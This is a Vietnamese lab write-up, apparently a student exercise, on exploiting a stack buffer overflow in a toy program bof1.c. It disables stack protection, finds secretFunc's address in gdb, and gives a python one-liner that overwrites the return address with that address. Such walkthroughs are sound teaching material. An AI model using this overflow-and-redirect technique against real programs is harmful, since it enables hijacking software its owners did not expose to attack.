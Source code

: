 ### Chi tiết Buffer-overflow trên file bof1.c
***
#### Mục đích của bài này là dùng buffer-overflow để gọi được hàm secretFunc()
Xem qua code ta có thể thấy lỗ hỏng nó đến từ hàm get(array) của hàm vuln(). Vì vậy ta sẽ dùng buffer-overflow để làm tràn biến array xuống phần return address và cái phần được tràn vào return adddres là địa chỉ của hàm secretFunc() thì lúc đó hàm secretFunc() sẽ được gọi


![image](https://github.com/user-attachments/assets/061f6e08-a811-4b5e-9e22-e625c0b706a3)
***
#### Các bước thực hiện
* Bước 1: Biên dịch file
  ```
  gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
  ```
* Bước 2: Lấy địa chỉ hàm secretFunc()

  Vào gdb:
  ```
  qdb -q bof1.out  
  ```
  Xem địa chỉ hàm
  ```
  disas secretFunc
  ```
  ![image](https://github.com/user-attachments/assets/3c883274-5ee1-44a6-a82a-c0161b96d775)

  => Địa chỉ hàm secretFunc() là 0x0804846b
* Bước 3: Điểm qua stackframe

  
  ![image](https://github.com/user-attachments/assets/4d515abb-0962-408a-912b-f1e2d36ce6b2)


  ta thấy mảng array chứa tối đa 200 bytes và ebp là 4 bytes nên ta cần truyền vào input 204 kí
  tự ngẫu nhiên và truyền thêm 4 bytes địa chỉ hàm secretFunc() nữa để đè lên return addr là ta có thể gọi hàm này
* Bước 4: Thực hiền truyền input
  ```
  echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out
  ```
  Kết quả:
  ![image](https://github.com/user-attachments/assets/eea0cbe7-a3a0-48b8-b9bc-8d79118d33b2)

  => Thành công
